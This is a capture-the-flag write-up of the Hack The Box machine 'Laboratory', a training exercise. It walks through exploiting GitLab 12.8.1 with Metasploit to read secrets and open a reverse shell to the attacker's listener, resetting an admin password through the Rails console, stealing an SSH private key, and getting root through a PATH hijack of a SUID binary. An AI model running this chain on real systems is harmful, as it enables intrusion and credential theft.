


Laboratory
Table of Contents
Enumeration
We start by using Nmap right away:
$ nmap -sC -sV -p1-65535 -oN nmapresult.txt 10.10.10.216
And the result:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 10:44 WET Nmap scan report for 10.10.10.216 Host is up (0.045s latency). Not shown: 65532 filtered ports PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA) | 256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA) |_ 256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519) 80/tcp open http Apache httpd 2.4.41 |_http-server-header: Apache/2.4.41 (Ubuntu) |_http-title: Did not follow redirect to https://laboratory.htb/ 443/tcp open ssl/http Apache httpd 2.4.41 ((Ubuntu)) |_http-server-header: Apache/2.4.41 (Ubuntu) |_http-title: The Laboratory | ssl-cert: Subject: commonName=laboratory.htb | Subject Alternative Name: DNS:git.laboratory.htb | Not valid before: 2020-07-05T10:39:28 |_Not valid after: 2024-03-03T10:39:28 | tls-alpn: |_ http/1.1 Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 119.42 seconds
This result shows us three different open ports: 22, 80, 443.
Under the port 443 entry, we can see this string Subject Alternative Name:
DNS:git.laboratory.htb. This says that there is a subdomain. So in this case,
we add it to the /etc/hosts file alongside the laboratory.htb one.
By looking at the laboratory.htb website, we do not find anything interesting
really. At least at a first glance. No URLs to other pages, no interesting JavaScript
files.
By checking git.laboratory.htb, we can clearly see that the first page, which
is a sign in page, is a GitLab Community Edition instance! We can also register
our own username here.
If we try to register, unfortunately, we get this error: 1 error prohibited this user from being saved.
Probably they want us to register with their own domain?

And then, after successfuly registering, we are redirected to the dashboard.
From here, the first thing we ought to know is what version of Gitlab is being
used. We can rapidly know this by going to the question mark on the navigation
bar and clicking Help. With this, we know we are working with GitLab
Community Edition Version 12.8.1.
When searching Google for exploits, there is one result from HackerOne that shows an Arbitrary File Read vulnerability tested in GitLab version 12.8.7. This version is higher than the one we are working with. Alongside this, there is a full explanation of how the exploit works. There’s even a video of a demonstration.
User
Metasploit has made our lives easier by having a script that does it all.
msf6 > use exploit/multi/http/gitlab_file_read_rce [*] No payload configured, defaulting to generic/shell_reverse_tcp msf6 exploit(multi/http/gitlab_file_read_rce) > show options Module options (exploit/multi/http/gitlab_file_read_rce): Name Current Setting Required Description ---- --------------- -------- ----------- DEPTH 15 yes Define the max traversal depth PASSWORD no The password for the specified username Proxies no A proxy chain of format type:host:port[,type:host:port][...] RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>' RPORT 80 yes The target port (TCP) SECRETS_PATH /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml yes The path to the secrets.yml file SECRET_KEY_BASE no The known secret_key_base from the secrets.yml - this skips the arbitrary file read if present SSL false no Negotiate SSL/TLS for outgoing connections TARGETURI /users/sign_in yes The path to the vulnerable application USERNAME no The username to authenticate as VHOST no HTTP server virtual host Payload options (generic/shell_reverse_tcp): Name Current Setting Required Description ---- --------------- -------- ----------- LHOST 192.168.1.64 yes The listen address (an interface may be specified) LPORT 4444 yes The listen port Exploit target: Id Name -- ---- 0 Automatic msf6 exploit(multi/http/gitlab_file_read_rce) > set PASSWORD testregister1 PASSWORD => testregister1 msf6 exploit(multi/http/gitlab_file_read_rce) > set USERNAME testregister1 USERNAME => testregister1 msf6 exploit(multi/http/gitlab_file_read_rce) > set VHOST git.laboratory.htb VHOST => git.laboratory.htb msf6 exploit(multi/http/gitlab_file_read_rce) > set LHOST 10.10.14.30 LHOST => 10.10.14.30 msf6 exploit(multi/http/gitlab_file_read_rce) > set RHOSTS 10.10.10.216 RHOSTS => 10.10.10.216 msf6 exploit(multi/http/gitlab_file_read_rce) > set RPORT 443 RPORT => 443 msf6 exploit(multi/http/gitlab_file_read_rce) > set SSL true [!] Changing the SSL option's value may require changing RPORT! SSL => true msf6 exploit(multi/http/gitlab_file_read_rce) > exploit [*] Started reverse TCP handler on 10.10.14.30:4444 [*] Executing automatic check (disable AutoCheck to override) [+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version. [*] Logged in to user testregister1 [*] Created project /testregister1/bmfJNdMh [*] Created project /testregister1/g4kCDTHP [*] Created issue /testregister1/bmfJNdMh/issues/1 [*] Executing arbitrary file load [+] File saved as: '/home/romeu/.msf4/loot/20210206182000_default_10.10.10.216_gitlab.secrets_847052.txt' [+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3 [*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read [*] Attempting to delete project /testregister1/bmfJNdMh [*] Deleted project /testregister1/bmfJNdMh [*] Attempting to delete project /testregister1/g4kCDTHP [*] Deleted project /testregister1/g4kCDTHP [*] Command shell session 1 opened (10.10.14.30:4444 -> 10.10.10.216:42322) at 2021-02-06 18:20:07 +0000 ls -la total 8 drwx------ 2 git root 4096 Jul 2 2020 . drwxr-xr-x 9 git root 4096 Feb 6 16:24 ..
Now having a reverse shell, we find out that we are the git user.
Let’s try messing around with the Gitlab Rails Console:
$ gitlab-rails console
There is a cheat-sheet with some commands, from GitLab.
There are some commands to find users, one of them being
User.find_by_username('someuser'). What seems logical to try first is using
this command but trying to find admin instead. Unfortunately, zero results.
Maybe we can execute something like find_by_id?
We know there is a user called dexter. Wonder if we can change the user data.
There is another GitLab link that is very helpful.

Let’s try setting our own password for dexter:
$ user = User.find_by_id(1) $ user.password = ‘password’ $ user.password_confirmation = ‘password’ $ user.save!
Now if we go back to https://git.laboratory.htb/ and login with
dexter:password, we succeed! Let’s check his repositories.
One of them is called securedocker and has CONFIDENTIAL! in its description.
If we dig in, we can find the users’ id_rsa in the .ssh folder.

We download the file, set permissions to 400 and login:
$ chmod 400 id_rsa $ ssh -i id_rsa dexter@10.10.10.216 dexter@laboratory:~$
After that, we just get the user flag!
Root
Now, we don’t have the user password, so we can’t actually run sudo -l to
check if the user can run some program as superuser.
One thing we can do this use the find command to check SUID executable
binaries:
$ find / -perm -4000 -type f -print 2>/dev/null
There are many binaries here and we can use
GTFOBins to check if there are binaries we can get the advantage of because of SUID.
In /usr/bin all binaries are useless. But there is one in /usr/local/bin/
called docker-security. Running it yields no results, but we can use ltrace to see what it is trying to do during runtime:
$ ltrace /usr/local/bin/docker-security
setuid(0) = -1
setgid(0) = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
<no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> ) = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
<no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> ) = 256
+++ exited (status 0) +++
As expected, it sets uid and gid to 0.
It is also trying to run chmod. So we can spoof this binary using $PATH to
spawn a root shell!
The steps to do this are simple:
$ cd /tmp $ echo “/bin/bash” > chmod $ export PATH=/tmp:$PATH $ echo $PATH # just to check $ ./usr/local/bin/docker-security
Root permissions! :-)